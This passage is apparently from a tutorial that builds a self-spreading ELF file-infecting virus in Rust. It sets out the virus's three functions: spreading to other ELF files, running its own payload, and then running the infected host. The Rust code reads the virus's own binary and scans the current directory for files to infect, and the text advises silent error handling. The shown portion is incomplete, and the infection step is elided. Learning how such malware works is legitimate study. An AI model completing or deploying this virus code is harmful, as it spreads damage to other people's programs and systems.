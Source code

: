 1. Look for files to spread to and perform the above 3 infection steps
2. Run its own `main` (do something a virus would do)
3. Execute the original ELF file

That's the theory - now to practice!

As explained above, the virus will have 3 primary functions:

```rust
/// Finds and infects other ELF files
fn spread_and_infect() {}

/// Code that is executed when an infected file is ran
fn virus_main() {}

/// Extracts and execute the host code
fn execute_host() {}
```

Note that these tasks are independent of each other: even if `spread_and_infect` fails, `virus_main` should execute, and if that fails, `execute_host` should execute. Additionally, as a virus, we don't need to have verbose error handling; silent errors are okay!

## Spreading to other ELFs

The `spread_and_infect` function needs to know 2 things:
- where to look for potential hosts
- what code to inject if it does find a host

We can pass this information as arguments:

```rust
use std::{env, fs};

/// Finds and infects other ELF files
fn spread_and_infect(dir: &str, virus: &[u8]) {}

fn main() {
    let my_name = &env::args().collect::<Vec<String>>()[0];
    if let Ok(my_code) = fs::read(my_name) {
        // Spread and infect neighboring ELFs
        spread_and_infect(".", &my_code);  
    }
}
```

The code of `spread_and_infect` should search for ELF files in the given directory, check if they are a suitable host, and infect them. The function should `return` silently if `fs::read_dir` fails.

```rust
/// Finds and infects other ELF files
fn spread_and_infect(dir: &str, virus: &[u8]) {    
    let entries = match fs::read_dir(dir) {
        Ok(v) => v.filter_map(Result::Ok).collect(), // Ignore Result<DirEntries> that are `Err`
        Err(_) => return,
    };

    for entry in entries {
        let mut contents = match fs::read(entry.path()) {
            Ok(v) => v,
            Err(_) => continue, // Skip if unable to read (bad permissions etc)
        };

        // ...
    }
}
```
